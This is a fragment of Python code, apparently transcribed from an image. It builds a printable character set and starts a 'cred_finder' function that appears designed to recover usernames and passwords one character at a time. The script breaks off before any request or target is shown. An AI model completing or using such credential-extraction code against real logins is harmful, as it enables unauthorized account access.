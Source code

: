     char = ''

    chr_num_dict= {97:122, 65:90, 48:57, 32:47, 58:64, 91:96, 123:126}

    for start in chr_num_dict.keys():
        for j in range(start, chr_num_dict[start]+1):
            char+=chr(j)

    char=char.replace("*", '')


    def chr_selector(track):

        return char[track]


    def cred_finder(cred_to_find):

        global user_name
        global passwd



        test_user = ''
        track = 0


        if cred_to_find == "user_name":

            pass_character = ''
            validate_usr = ''
            validate_pass = "*"

            try:
                if passwd[-1] != "*":

                    passwd += "*"

            except:
                pass


        elif cred_to_find == "passwd":

            usr_character = ''
            validate_usr = "*"
            validate_pass = ''

            try:
                if user_name[-1] != "*":
                    user_name += "*"
            except:
                pass

        else:

            exit()



        while True:

            try:
                if cred_to_find == "user_name":
